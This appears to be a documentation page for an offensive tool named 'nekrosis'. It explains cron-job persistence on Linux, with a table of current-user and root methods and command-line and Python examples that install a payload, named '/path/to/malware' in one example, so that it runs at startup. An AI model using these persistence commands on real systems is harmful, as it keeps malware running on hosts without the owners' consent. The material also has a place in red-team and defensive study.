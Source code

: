 # Cron Job Persistence

### Description

This method relies on the unix utility `cron` to schedule tasks to run at startup. Can be configured to run payloads as the current user or as root.

### Available Methods

| Method                   | Requires      | Runs As      |
|:-------------------------|:--------------|:-------------|
| `Cronjob - Current User` | Standard User | Current User |
| `Cronjob - Root`         | Root          | Root         |

### Demo:

#### - Cronjob - Current User

::: code-group

```shell [Command Line]
nekrosis --payload /path/to/payload --method "Cronjob - Current User"
```

```python [Python API]
from nekrosis import Nekrosis

nekrosis_obj = Nekrosis(
  payload="/path/to/malware",
  custom_method="Cronjob - Current User"
)
nekrosis_obj.install()
```

:::

![](/public/Linux%20Persistence%20Methods/CronJob%20-%20Current%20User.png)


#### - Cronjob - Root

::: code-group

```shell [Command Line]
nekrosis --payload /path/to/payload --method "Cronjob - Root"
```

```python [Python API]
from nekrosis import Nekrosis

nekrosis_obj = Nekrosis(
  payload="/path/to/malware",
  custom_method="Cronjob - Root"
)
nekrosis_obj.install()
```

:::


![](/public/Linux%20Persistence%20Methods/CronJob%20-%20Root.png)